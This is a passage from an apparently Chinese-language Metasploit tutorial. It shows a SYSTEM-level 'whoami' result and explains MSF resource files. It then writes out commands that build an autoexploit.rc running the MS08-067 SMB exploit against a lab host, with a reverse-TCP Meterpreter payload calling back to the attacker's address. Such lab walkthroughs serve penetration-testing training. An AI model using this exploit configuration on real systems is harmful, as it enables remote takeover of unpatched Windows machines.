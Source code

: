 ```javascript
whoami
nt authority\system
```


### 资源文件 

资源文件是MSF终端包含一系列自动化命令的脚本文件，这些文件实际上是一个可以在MSF终端运行的命令列表，列表中的命令将顺序执行。
![Alt text](/img/hack/Metasploit/1488517649976.png)


在`/usr/share/metasploit-framework/scripts/resource`路径下创建资源文件`auto_msf_08.rc `,
```javascript


root@kali:/usr/share/metasploit-framework/scripts/resource# echo use exploit/windows/smb/ms08_067_netapi> autoexploit.rc
root@kali:/usr/share/metasploit-framework/scripts/resource# echo set RHOST 10.10.10.130 >>autoexploit.rc 
root@kali:/usr/share/metasploit-framework/scripts/resource# echo set payload windows/meterpreter/reverse_tcp_allports >> autoexploit.rc 
root@kali:/usr/share/metasploit-framework/scripts/resource# echo set LHOST 10.10.10.134 >> autoexploit.rc 
root@kali:/usr/share/metasploit-framework/scripts/resource# echo set target 3 >> autoexploit.rc 
root@kali:/usr/share/metasploit-framework/scripts/resource# echo exploit >> autoexploit.rc 
root@kali:/usr/share/metasploit-framework/scripts/resource# cat autoexploit.rc 

```